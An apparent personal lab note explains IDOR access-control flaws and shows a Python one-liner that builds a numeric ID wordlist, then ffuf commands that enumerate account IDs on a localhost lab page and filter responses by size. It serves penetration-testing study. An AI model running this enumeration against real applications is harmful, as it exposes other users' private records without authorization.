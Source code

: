 Basically it is arises when we are able to access an object, on which we have no authorization, using his id.

It is very common in API driven applications.

# IDOR 0x01
Here we can see thta using the account ID we can access to user information:
- ![[Pasted image 20250107161818.png]]
- in this casse the id is `1009`

In fact if we put `1010` we obtain:
- ![[Pasted image 20250107161909.png]]


So what we want is to gett all the possible information making this process automatic.

First of all we need a wordlist:
```bash
pyhton3 -c 'for i in range(1,20001): print(i)' > wordlist.txt
```



At this point we use `ffuf` to run the attack:
```bash
ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w wordlist.txt -fs 849
```
- we need to filter as the size
- in this case the size of an `id` that doesn't exist is `849`


We can also adjust the output with `grep`
```bash
ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w wordlist.txt -fs 849 | grep FUZZ
```
- ![[Pasted image 20250107162324.png]]


At this point we can look at all user info, in general we need to use Burp Intruder to filter for specific info.

